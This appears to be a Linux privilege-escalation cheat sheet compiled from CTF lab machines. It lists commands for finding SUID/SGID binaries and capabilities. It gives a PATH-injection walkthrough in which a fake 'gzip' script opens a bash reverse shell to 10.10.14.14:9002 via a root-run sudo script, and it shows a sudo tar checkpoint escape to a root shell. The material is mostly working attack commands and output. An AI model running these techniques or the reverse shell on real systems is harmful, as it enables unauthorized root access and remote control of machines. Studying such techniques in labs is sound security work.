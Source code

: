
## Finding SUID 
```
find / -type f -perm /4000 2>/dev/null
```
or 
```
find / -type f -perm -u=s 2>/dev/null
```


## Finding HUID 
```
find / -type f -perm /2000 2>/dev/null
```
or 
```
find / -type f -perm -g=s 2>/dev/null
```

## Finding Capabilities
```
getcap -r / 2>/dev/null
```


## Path Injection With Sudo nopasswd

```
m4lwhere@previse:/tmp$ sudo -l
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

```
m4lwhere@previse:/tmp$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

```
m4lwhere@previse:/tmp$ cat gzip
#!/bin/bash

bash -c "sh -i >& /dev/tcp/10.10.14.14/9002 0>&1"
```

```
m4lwhere@previse:/tmp$ chmod +x gzip
```

```
m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH
```

```
m4lwhere@previse:/tmp$ sudo -u root /opt/scripts/access_backup.sh
```


##  Privesc with sudo /bin/tar

ref:- https://tryhackme.com/room/cowboyhacker

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```

gtfobin:- https://gtfobins.github.io/gtfobins/tar/#sudo

```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# 
```

